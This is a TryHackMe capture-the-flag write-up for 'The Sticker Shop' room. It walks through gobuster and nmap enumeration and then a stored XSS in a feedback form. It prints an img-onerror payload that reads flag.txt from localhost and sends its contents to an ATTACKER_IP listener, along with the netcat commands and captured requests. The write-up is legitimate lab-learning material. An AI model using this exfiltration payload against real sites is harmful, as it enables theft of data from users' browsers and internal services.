 # THM - The Sticker Shop
This is a TryHackMe CTF room. 
"Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!"

## Enumeration 
started VM with the IP `http://10.10.27.75:8080`. the goal is to get the flag at `http://TARGET_IP:8080/flag.txt`
Started GoBuster using the medium dir list.
```
gobuster dir -u http://10.10.27.75:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.27.75:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/view_feedback        (Status: 401) [Size: 25]
Progress: 220560 / 220561 (100.00%)
```
then scanned all ports on the target machine.
```
sudo nmap -sS -sV -T5 -vv 10.10.27.75 -allports

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy syn-ack ttl 61 Werkzeug/3.0.1 Python/3.8.10
```
I then cURL'd the target to review the code and found a submit feedback link.
```
<header>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
```
Further investigating reveals that the submit uses a POST method; potential entry point. I tried to go straight to the flag.txt and get a "401 Unauthorized"

Going straight to /submit_feedback shows:

![submit feedback screenshot](https://github.com/MrGallifrey912/Hacking-Resources/blob/d21a916a7102d56aaeaf90efe753a402f175694a/Sticker-Shop%20CTF/Images/Pasted%20image%2020241229221603.png)

So this shows me that I can potentially exploit the text input.

## Exploring potentials
so there are a couple train of thoughts I considered looking for using BurpSuite and DevTools.
* session cookies
* weird headers
* hidden directories

There are no session cookies or weird headers that stick out to me. However I did discover a /view_feedback directory.  This turned out to be behind a 401 unauthorized response, I don't feel this is relevant.

I tried to validate XSS by submitting a basic script tag to alert XSS. This did not prove to work and sent me down a couple other methods of exploitation that were not promising. I used python to create a couple scripts to group and automate some of these tasks, including:
* Cross-Site Request Forgery (CSRF)
* Insecure Direct Object References (IDOR)
* Local File Inclusion (LFI) or Remote File Inclusion (RFI)
* Reflective File Access
None of these seemed to bare fruit and I started to feel XSS was the answer and started researching potential payloads since the delivery method has to be the text input.

# XSS Exploitation
I determined that XSS had to be the exploit to get the flag, but how? I researched some payloads, I kept getting some basic ones that did not work, I didn't find them though I am sure they exist and I admit I didn't look to hard. I found a write-up on this specific box with the answer obfuscated and skimmed it. 

I would have never got this without help. the payload seems more complicated than I would have been able to write or even find. So the test payload looks like this:

```
<img src=x onerror="fetch('http://ATTACKER_IP:PORT')"/>
```

The payload works as a basic XSS attack. what happens is:
* `<img/>` tag is inserted with the source of x(`src="x"`). Because the source is invalid you need an `onerror` event
* `"fetch()"`: is used to call API's I believe. in this case we are going to insert our attacking ip(`'http://ATTACKER_IP:PORT'`) 
* `PORT`: the port you assign in a netcat listener

This needs to be submitted in the text input once you have a netcat listener setup on a specified port, I used:

```
nc -knvlp 8000
listening on [any] 8000 ...
```

Once listening you can submit the above payload. it will take a second or two to receive a response:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 56902
GET / HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

This proves XSS can be achieved. the payload to now get the flag is:

```
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r)).catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"/>
```

Okay so lets break this down before submitting, first I had to initiate another listener before submitting. This payload can be parsed as such:
* `"fetch('127.0.0.1:8080/flag.txt')`: This makes a request to the local server of the Target_Machine and 127.0.0.1 is the loopback address. If the flag is stored in a file, this attempts to retrieve its contents.
* `.then(r => r.text())`: If the content in the flag is fetched, the `.text()` method extracts the contents as text.
* `.then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r))`: This section sends the contents to your listener by appending the contents of the flag as a query parameter (`?c=<flag content>`).
* `.catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"`: This catches any errors if for any reason the request to the flag fails. `catch` sends any errors to the attacker, using the (`?c=<error message>`) again.

So with your listener back up and running, submit the final payload. You should see:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 45532
GET /?c=THM{█████████████████████████████████████████} HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gec HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

# Summary

* XSS was the vector of exploitation due to the application allowing a user to inject and execute arbitrary JavaScript in the browser.
* I leveraged JavaScript's `fetch()` method to access the flag located on the victims local server and exfil the contents.
* The payload executed successfully due to the lack of input sanitization or proper output encoding by the application, if these measures were in place this would not be an attack vector.

# Conclusion
I did not write or create the payload but after further research I can see how it was put together. Huge shoutout to Jay Bhatt's medium post that provided the payload and a much more concise walkthrough of The Sticker Store box on THM. I personally thought I could exploit a different way and narrowed down to XSS. I worked through my own process till I hit a wall and sought assistance.

Tools used:
* GoBuster
* Nmap
* Burpsuite
* cURL
* NetCat
* Python3
